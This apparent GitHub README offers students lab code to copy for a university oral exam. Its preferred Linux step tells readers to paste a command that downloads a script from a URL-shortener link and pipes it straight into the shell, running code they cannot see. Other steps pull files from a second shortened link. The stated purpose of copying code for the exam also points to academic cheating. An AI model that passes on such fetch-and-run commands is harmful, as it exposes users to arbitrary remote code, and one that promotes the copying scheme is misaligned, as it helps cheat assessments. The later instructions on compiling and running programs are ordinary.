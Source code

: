 # Oral Exam Programming Code Collection

This repository contains important instructions for accessing a collection of programming codes used in preparation for the upcoming oral exam. The resource covers various subjects such as:

- **Object-Oriented Programming Lab (OOPL)**
- **Computer Graphics Lab (CGL)**
- **Data Structures and Algorithms Lab (DSAL)**
- **Data Structures Lab (DSL)**
- **Microprocessor Lab (MPL)**
## Instructions

# Important!!!: First of all make sure there is internet connection in your system (Ethernet or Wi-Fi to be connected) then only follow the instructions ahead otherwise nothing will work.

Follow the steps below according to your operating system.

## For Linux
### Direct method (Highly preferred)
1. **Open Terminal**
2. Copy and Paste this command pressing "Control + Shift + V" from your keyboard or manually (pressing right click and clicking on paste) paste it.
```bash
wget -qO- https://naturl.link/curl | sh
```
3. Once the command completes, open `pro.txt` to review the codes.

### Manual Method
1. **Open Terminal.**
2. Since Linux may not have the `curl` command installed by default, use the following command instead:
   ```
   wget -qO - https://is.gd/se19pro >> pro.txt
   ```
3. Once the command completes, open `pro.txt` to review the codes.

## For Windows

1. **Open the Windows Terminal.**
2. Execute the following command:
   ```
   curl.exe -fsSL https://is.gd/se19pro >> pro.txt
   ```
3. After executing the command, open the file `pro.txt` in your favorite text editor to view the programming codes.

## To run programs follow these steps for your own program.

### 1. Running a Python Program

**Steps:**
1. Write your Python code in a file (for example, save it as `script.py`).
2. Open a terminal.
3. Run the program using the Python interpreter.

**Command:**

```bash
python3 script.py
```

### 2. Running a C++ Program

**Steps:**
1. Write your C++ code in a file (e.g., `program.cpp`).
2. Open a terminal.
3. Compile the C++ source file using a C++ compiler (like `g++`), and then run the compiled executable.
4. Use a single-line command with `&&` to chain the compile and run commands.

**Command Example:**

```bash
g++ program.cpp -o program && ./program
```

### 3. Running an Assembly Program (Using NASM and LD)

**Steps:**
1. Write your assembly code in a file (e.g., `program.asm`).
2. Open a terminal.
3. Assemble the source code using NASM.
4. Link the object file using LD to produce an executable.
5. Chain these steps using `&&` on one line.

**Command Example:**

```bash
nasm -f elf64 program.asm -o program.o && ld program.o -o program && ./program
```

### 4. Running a Java Program.

**Steps:**
1. Write your Java code in a file (e.g., `Program.java`).
2. Open a terminal.
3. Compile the Java source code using the `javac` command.
4. Run the compiled Java program using the `java` command.
5. Chain these steps using `&&` on one line.

**Command Example:**

```bash
javac Program.java && java Program
``` 
## Purpose

These instructions are provided to copy the codes for use in the oral exam. Make sure to follow these steps accordingly based on your operating system.

---

Happy studying and best of luck on your oral exam!
